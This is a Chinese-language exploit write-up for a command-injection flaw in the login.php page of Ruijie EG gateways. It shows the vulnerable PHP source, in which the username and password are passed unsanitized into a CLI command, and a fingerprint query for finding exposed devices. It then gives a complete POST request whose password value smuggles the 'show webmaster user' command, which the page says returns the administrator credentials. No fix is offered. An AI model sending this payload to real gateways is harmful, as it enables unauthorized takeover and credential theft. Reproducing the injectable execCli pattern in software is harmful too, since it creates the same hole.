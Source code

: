 # 锐捷 EG易网关 login.php 管理员账号密码泄露漏洞

## 漏洞描述

锐捷EG易网关 login.php存在 CLI命令注入，导致管理员账号密码泄露漏洞

## 漏洞影响

<a-checkbox checked>锐捷EG易网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Ruijie-EG易网关"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/ruijie-25.png)



漏洞文件 login.php



```php
<?php

/**
 * 用户登录处理
 */
define('IN', true);     //定位该文件是入口文件
define('DS', DIRECTORY_SEPARATOR);
define('AROOT', dirname(__FILE__) . DS);

class defaultController {

    function __construct() {
        
    }

    /**
     * 登录处理
     */
    public function indexAction() {
$username = p("username");$password = p("password");$data = [];
$reg='/(\r|\n)+/';
if (count(preg_split($reg, $username)) > 1 || count(preg_split($reg, $password)) > 1) {
$data["status"] = 6;
$data["msg"] = "username or password can't exist '\r\n'";
json_echo($data);
exit();
}
        if ($username == FALSE || $password == FALSE) {
            $data["status"] = 5;
            $data["msg"] = "username or password can't empty";
            json_echo($data);
            exit();
        }
        $res = execCli("exec", "webmaster $username $password");
        if ($res["status"] != 1) {
            json_echo($res);
            exit();
        }
        $isSuccess = trim($res["data"]);
        if ($isSuccess == 0) {    //用户名、账号验证成功
            session_start();
            $_SESSION['username'] = $username;  //记录用户名
            $_SESSION["lasttime"] = time();    //记录登录时间
            $config = @file_get_contents(DS . "data" . DS . "web.config");    //获取web配置信息
            if ($config != false) {
                $config = unserialize($config);
                $_SESSION["timeout"] = isset($config["loginTimeout"]) ? $config["loginTimeout"] * 60 : c("timeout");
            } else {
                $_SESSION["timeout"] = c("timeout");
            }
            setcookie("user", $_SESSION['username']);
        }
        $res["data"] = $isSuccess;
        json_echo($res);
    }

    /**
     * 获取设备信息
     */
    function versionAction() {
        $info = $version = execCli("exec", "show version detail", "");
        $info["data"] = preg_split("/\r*\n/", $info["data"]);
        json_echo($info);
    }

}

include_once(AROOT . "init.php");    //mvc初始化入口，放在底部
```



关键代码部分



```plain
if ($username == FALSE || $password == FALSE) {
            $data["status"] = 5;
            $data["msg"] = "username or password can't empty";
            json_echo($data);
            exit();
        }
        $res = execCli("exec", "webmaster $username $password");
        if ($res["status"] != 1) {
            json_echo($res);
            exit();
        }
        $isSuccess = trim($res["data"]);
```



发送请求包，拼接 CLI指令 **show webmaster user**



```plain
POST /login.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 49
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

username=admin&password=admin?show+webmaster+user
```



![img](../../../.vuepress/public/img/ruijie-26.png)



成功获取账号密码

